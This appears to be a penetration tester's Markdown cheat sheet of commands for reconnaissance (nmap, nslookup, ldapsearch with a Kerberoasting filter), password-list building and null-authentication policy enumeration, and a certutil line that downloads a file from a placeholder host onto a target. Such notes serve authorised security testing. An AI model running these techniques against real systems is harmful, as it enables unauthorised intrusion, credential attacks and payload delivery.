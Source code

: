 # Useful Commands/Scripts #

## Reconnaisance ##

### Nmap ###

- Quick scan: `nmap -v -sC -sS -oA [filename] [host]`
- Full scan: `nmap -v -p- -oA [filename] [host]`

### NSLookup ###

- Set DNS server:
  - `server [host]`
- Lookup host
  - `[host]`
  - Works for reverse lookups, too

### LDAPSearch ###
- `-x` sets simple (non-binding) authentication
- `-h` sets the LDAP server
- `-s` is the scope (`sub`, `base`, `one`, or `children`)
- Anything put at the end will be interpreted as a list of attributes to return

#### LDAP Filters of Note ####

- `&(objectCategory=person)(objectClass=user)(servicePrincipalName=*)` finds human users with SPNs (for Kerberoasting attacks)
- `&(objectCategory=person)(objectClass=user)` returns human users
- `(objectClass=group)` returns groups

## Cracking ##

- `hashcat --stdout [basic password list] -r [ruleset] -r [ruleset 2] ...` will enrich a basic wordlist by applying the given rules. Good for making a small list with variations on common passwords, for use in online attacks.
- `crackmapexec smb --pas-pol` can enumerate password policies via SMB; useful for further refining your wordlists (e.g. restricting passwords in the list to those with a length that is valid in the password policy)
  - you may need to append `-u '' -p ''` for a null authentication attack, if the anonymous authentication did not work
  - Both will fail if the server is properly configured though (i.e. prevents null- and anonymous-authentication)
  - Similar things can be done via `rpcclient`, too.

## Downloading Items to Target ##

- Certutil: `certutil.exe -urlcache -split -f "hxxp://place.com/something" something`

## Running .NET stuff without .NET access locally ##

- https://dotnetfiddle.net

## Generic network connections ##

- I prefer to start by trying with `nc`
- If `nc` runs into issues, I use `telnet`


